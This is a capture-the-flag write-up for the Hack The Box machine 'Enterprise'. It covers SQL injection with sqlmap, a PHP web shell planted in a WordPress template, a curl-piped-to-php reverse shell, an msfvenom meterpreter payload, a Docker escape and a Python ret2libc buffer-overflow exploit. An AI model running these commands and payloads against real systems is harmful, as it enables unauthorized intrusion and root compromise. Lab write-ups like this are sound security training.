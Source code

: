 # HTB - Enterprise

## Enumeration

Our nmap scan reveals
- port 22 open for ssh with an Ubuntu header  
- port 80 open for http running apache with wordpress on a Debian server
- port 443 open for https running Apache2 on an Ubuntu server
- port 8080 open for http running Apache with Joomla! on a Debian server

It is very interesting that the scan is reporting two different operating systems, and is the first indication that there is some stuff running inside of Docker containers here  

We can get to all three webpages without editing `/etc/hosts` but the wordpress site looks very strange. Looking at page source with `ctrl+u` we can see that this is because all fo the javascript is referenced using enterprise.htb urls, which we cannot dns resolve. So add enterprise.htb to `/etc/hosts` to fix this  

There is a post by the user william.riker on the WP site  

We can run a wordpress scan against the wordpress site with:  
`wpscan --url http://10.10.10.61 --enumerate ap,u,tt | tee wpscan.log`  

At the same time we can run a dir bust against the https site with:  
`gobuster dir -u https://10.10.10.61/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k`  
The `-k` means don't require a valid SSL cert (same as curl)  

The gobuster scan reveals a directory files exists. Navigating to this directory, we can see lcars.zip which we can download  

<br />

## SQL Mapping

lcars.zip contains three files, one of which tells us that this is a wordpress plugin  

A quick Google search will tell us that WP plugins by default are at `/wp-content/plugins/<plugin name>`  

There are two other php files in lcars.zip, lcars_db.php and lcars_dbpost.php
lcars_db.php is vulnerable to SQL injection  

We can capture a request to http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 and send it to Burp  

We can then save the burp file as a .req and use sql map
`sqlmap -r ~/Documents/enterprise_lcars_db.req --dbms mysql`  
We can specify dbms mysql because we saw it was using mysql in the php script  
Once we see the query parameter is vulnerable to a boolean-based blind we can do:  
`sqlmap -r ~/Documents/enterprise_lcars_db.req --dbms mysql --batch --technique=B --dump`  
This runs for a really long time, but eventually dumps william.riker's wordpress password  

<br />

## Wordpress Template Modification

We can log in to wordpress as William.Riker at:  
http://enterprise.htb/wp-login.php  

Then we can add:  
```php
echo system($_REQUEST['aaa']);
```
to the start of a template file (after the `<?php`)  
This command is at:  `/usr/share/webshells/php/cmd.php`  

Now, when we navigate to http://enterprise.htb?aaa=ls  
The page source will show the output of the ls command

## Pivoting to the mysql server

We can get a php reverse shell from:  
`/usr/share/webshells/php/php-reverse-shell.php`  
We need to change the lhost and lport of this shell  
Host an http server on 80 and (using burp) send:  
`aaa=curl 10.10.14.4/php-reverse-shell.php|php`  
while listening on the port we specified with nc  

And we get a shell on the box. `hostname` reveals that this is in fact a docker container  
`ip a` shows that we are dual-homed on the 10.10 network and on a 172.17 network  
`ip neigh` reveals that there is a host running on 172.17.0.2 which we can assume is the mysql server  

I can't really remember this part, but we find the password for the mysql server somewhere on the first docker container  

Now, we create a meterpreter shell to replace our php shell with:  
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=8002 -f elf -o linux_rev_shell`  

Send it over with an http server / curl, chmod +x it, listen with msfconsole exploit/multi/handler, and run it to get a meterpreter session

I got very caught up here trying to use meterpreter port fwds to pivot to the mysql server. It is very buggy. Would highly reccomend using `chisel` instead. See the examples in `Chisel_Pivoting.md` for how to do that  

<br />

## Escaping Docker

We can basically do the same template thing we did with Docker on the Joomla server once we have login creds  
This gives us a basic php rev shell  
When we run `mount`, unlike on the Wordpress host, we can see:  
`/dev/mapper/enterprise--vg-root on /var/www/html/files type ext4`  
This probably means that we can put things in the /files directory used by the https server from before.  
Putting a new PHP reverse shell there, and starting a listener, we can click on the php reverse shell in our browser, and get a connection back, this time from the host itself, not from a docker container.  

Unlike the containers, this host does have python installed, so we can do:  
`python3 -c 'import pty;pty.spawn("/bin/bash")'`  
`ctrl z`  
`stty raw -echo; fg`  
to upgade our shell  

<br />

## Privilege Escalation

Grab LinEnum from https://github.com/rebootuser/LinEnum and copy it over to the box  

Running LinEnum.sh shows us that `/bin/lcars` is a binary with the suid bit set  
Because this is a HTB box, we can be pretty sure that this is what we are meant to exploit  

In the `[-] Listening TCP` section, linEnum also shows that we are listening on port `32812`. Our nmap scan did not catch this because it is a non-standard port. 

Running `netstat -alnp | grep LIST` is another way to show all the ports this box is listening on  

if we `nc 10.10.10.61 32812` we can see that it is in fact the lcars binary which is running on that port  

Getting the binary off the box:
- base64 /bin/lcars  
- copy the b64:  
    - `ctrl+space [` to enter tmux copy mode  
    - vim h j k l keys to move around  
    - 'space' to start copying
    - 'enter' to copy
    - 'ctrl+space ]` to paste from tmux buffer  
- paste in b64 on attack box in a file
- `base64 --decode lcars.b64 > lcars.bin`
- `md5sum lcars.bin` and `md5sum /bin/lcars` to make sure they match  

Now we can RE the binary  
There is a quick bridge access code password check that is super easy to see in memory
Its a simple buffer overflow that lets us execute a ret2libc  

`file` on the binary tells us it is a 32-bit elf binary  
ASLR is off on the target system ( `/proc/sys/kernel/randomize_va_space` = 0 )  
We have GDB on the target system meaning we can just `p system` to find system's address in the loaded libc, and `find &system,+9999999,"sh"` to find an occurence of the 'sh' string in the loaded libc  

Here is the relatively simple exploit:
```python
# lcars is a 32-bit dynamically linked binary
# ASLR is turned off on the target box

# We can run GDB on the target box to print the address of libc system and an address of the string "sh"
# Then, its a simple buffer overflow after a password check to get a shell

import pwn
import struct

HOST, PORT = '10.10.10.61', 32812

r = pwn.remote(HOST, PORT)

# gdb on the target: p system
system_addr = struct.pack("<I", 0xf7e4c060)
# gdb on the target: find &system,+9999999,"sh"
# x/s 0xf7f6ddd5 to verify
sh_addr = struct.pack("<I", 0xf7f6ddd5)

payload = b'a' * 212
payload += system_addr
payload += b'a' * 4 # fill system's return address with garbage (usually people would just use the address of exit() to do this)
payload += sh_addr

r.recvuntil("Enter Bridge Access Code:")
r.sendline("picarda1")
r.recvuntil("Waiting for input:")
r.sendline("4")
r.recvuntil("Enter Security Override:")
r.sendline(payload)
r.interactive()
```
